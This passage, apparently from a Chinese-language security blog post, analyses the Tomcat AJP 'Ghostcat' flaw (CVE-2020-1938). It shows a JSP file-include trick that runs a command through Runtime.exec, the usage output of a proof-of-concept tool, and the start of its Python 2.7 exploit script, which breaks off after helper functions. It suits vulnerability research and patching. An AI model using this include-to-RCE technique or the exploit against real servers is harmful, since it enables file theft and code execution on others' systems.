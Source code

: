 ```
```

**后话**

我试了一下 jsp 的文件包含，这个 demo 下也是可以的，所以实际上 RCE 就是 jsp 的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后 RCE。

```
Copy to clipboard//1.jsp
<%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
<%@ include file="1.txt" %>

//1.txt
<%@ Runtime.getRuntime().exec("open /System/Applications/Calculator.app");%> 
```

另外前面可能有师傅会问为什么是 GET，原因是下面这个 POC 有`forwardrequest 2`，根据 AJP 数据包格式`第 6 个字节(02)代表是 Get 请求`。另外在 Tomcat 中也有相关映射关系，在 **AjpProcessor** 做 **prepareRequest** 处理的时候会根据字节选择相关的请求方式。

![image](img/d268f26e1b960077de469851bfcdbb8e.png)

### poc

```
(py27)> python .\cve-2020-1938-poc.py -h
usage: cve-2020-1938-poc.py [-h] [-p PORT] [-w WEBAPP] [-f FILE] [-l] target

positional arguments:
  target                Hostname or IP to attack

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  AJP port to attack (default is 8009)
  -w WEBAPP, --webapp WEBAPP
                        Which webapp to attack (default is ROOT
  -f FILE, --file FILE  file path :(WEB-INF/web.xml)
  -l, --lfi             local file include 
```

### python2.7

```
#!/usr/bin/env python
# CNVD-2020-10487  Tomcat-Ajp lfi
# Based on: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/
#
# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
import socket
import struct
import argparse

def pack_string(s):
    if s is None:
        return struct.pack(">h", -1)
    l = len(s)
    return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)

def unpack(stream, fmt):
    size = struct.calcsize(fmt)
    buf = stream.read(size)
    return struct.unpack(fmt, buf)
```